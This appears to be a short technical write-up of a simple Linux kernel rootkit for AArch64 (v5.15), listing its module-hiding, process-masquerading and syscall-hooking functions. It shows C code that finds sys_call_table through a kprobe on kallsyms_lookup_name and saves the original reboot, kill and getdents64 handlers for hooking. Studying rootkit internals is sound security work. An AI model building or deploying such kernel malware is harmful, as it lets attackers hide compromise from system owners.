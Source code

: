 You can also see this document on [HackMD](https://hackmd.io/@Cr1xxty1RMCCkPcMXYPWeg/rootkit)

## Intro Rootkit
About Environment:
> Both the rookit and the test program run on an AArch64 machine.
> The rootkit work as an independent module on the mainline Linux v5.15.

Rootkit as you might have heard before, is essentially the malware that runs in the kernel space. To achieve these functions, you must implement it as a loadable kernel module (LKM). 

LKM runs in kernel mode and allows access to all kernel internal structures/functions. It can be used to extend the functionality of the running kernel, and thus it is also often used to implement device drivers to support new hardware.

It's a simple rootkit and provide the following functions: 
(1) hide/unhide module
(2) masquerade process name
(3) hook/unhook syscall 

## Explanation
After entering rootkit_init, first obtain the sys_call_table, and then save the address of the syscall table that will be replaced by the hook later.
```c=
__sys_call_table = get_syscall_table();
if(!__sys_call_table) {
    printk(KERN_INFO "Failed to find sys_call_table\n");
    return 1;
}

orig_reboot = (t_syscall)__sys_call_table[__NR_reboot];
orig_kill = (t_syscall)__sys_call_table[__NR_kill];
orig_getdents64 = (t_syscall)__sys_call_table[__NR_getdents64];
```

Using kprobe to locate `kallsyms_lookup_name`, then obtaining the required parameters from kallsyms_lookup_name.
```c=
static unsigned long *get_syscall_table(void)
{
    unsigned long *syscall_table;
	
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;
    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    update_mapping_prot = (void *)kallsyms_lookup_name("update_mapping_prot");
    start_rodata = (unsigned long)kallsyms_lookup_name("__start_rodata");
    init_begin = (unsigned long)kallsyms_lookup_name("__init_begin");

    printk(KERN_INFO "sys_call_table address: %p\n", syscall_table);
    return syscall_table;
}
```
